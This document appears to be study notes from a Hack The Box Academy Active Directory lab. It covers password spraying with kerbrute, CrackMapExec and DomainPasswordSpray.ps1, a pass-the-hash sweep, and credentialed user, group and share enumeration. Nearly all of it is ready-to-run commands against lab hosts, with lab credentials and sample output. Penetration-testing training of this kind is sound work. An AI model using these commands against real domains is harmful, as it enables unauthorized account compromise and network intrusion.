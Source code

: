 
# Internal Password Spraying - from Linux
#### Using Kerbrute for the Attack

  Internal Password Spraying - from Linux

```bash
0xCZR@htb[/htb]$ kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1
```
#### Using CrackMapExec & Filtering Logon Failures

  Internal Password Spraying - from Linux

```bash
0xCZR@htb[/htb]$ sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep +
```

#### Validating the Credentials with CrackMapExec

  Internal Password Spraying - from Linux

```bash
0xCZR@htb[/htb]$ sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123

SMB         172.16.5.5      445    ACADEMY-EA-DC01  [*] Windows 10.0 Build 17763 x64 (name:ACADEMY-EA-DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         172.16.5.5      445    ACADEMY-EA-DC01  [+] INLANEFREIGHT.LOCAL\avazquez:Password123
```

```bash
sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +
```

# Internal Password Spraying - from Windows
#### Using DomainPasswordSpray.ps1

  Internal Password Spraying - from Windows
```bash
PS C:\htb> Import-Module .\DomainPasswordSpray.ps1
PS C:\htb> Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue```


#### CME - Domain User Enumeration

We start by pointing CME at the Domain Controller and using the credentials for the `forend` user to retrieve a list of all domain users. Notice when it provides us the user information, it includes data points such as the [badPwdCount](https://docs.microsoft.com/en-us/windows/win32/adschema/a-badpwdcount) attribute. This is helpful when performing actions like targeted password spraying. We could build a target user list filtering out any users with their `badPwdCount` attribute above 0 to be extra careful not to lock any accounts out.

  Credentialed Enumeration - from Linux

```bash
0xCZR@htb[/htb]$ sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --users
```

#### CME - Domain Group Enumeration
  Credentialed Enumeration - from Linux

```bash
0xCZR@htb[/htb]$ sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --groups
```

#### CME - Logged On Users
We can also use CME to target other hosts. Let's check out what appears to be a file server to see what users are logged in currently.

  Credentialed Enumeration - from Linux
```bash
0xCZR@htb[/htb]$ sudo crackmapexec smb 172.16.5.130 -u forend -p Klmcargo2 --loggedon-users
```

#### CME Share Searching

We can use the `--shares` flag to enumerate available shares on the remote host and the level of access our user account has to each share (READ or WRITE access). Let's run this against the INLANEFREIGHT.LOCAL Domain Controller.

#### Share Enumeration - Domain Controller
  Credentialed Enumeration - from Linux
```bash
0xCZR@htb[/htb]$ sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --shares
```

#### Spider_plus
  Credentialed Enumeration - from Linux
```bash
0xCZR@htb[/htb]$ sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M spider_plus --share 'Department Shares'
```

#### SMBMap To Check Access
  Credentialed Enumeration - from Linux
```bash
0xCZR@htb[/htb]$ smbmap -u forend -p Klmcargo2 -d INLANEFREIGHT.LOCAL -H 172.16.5.5
```
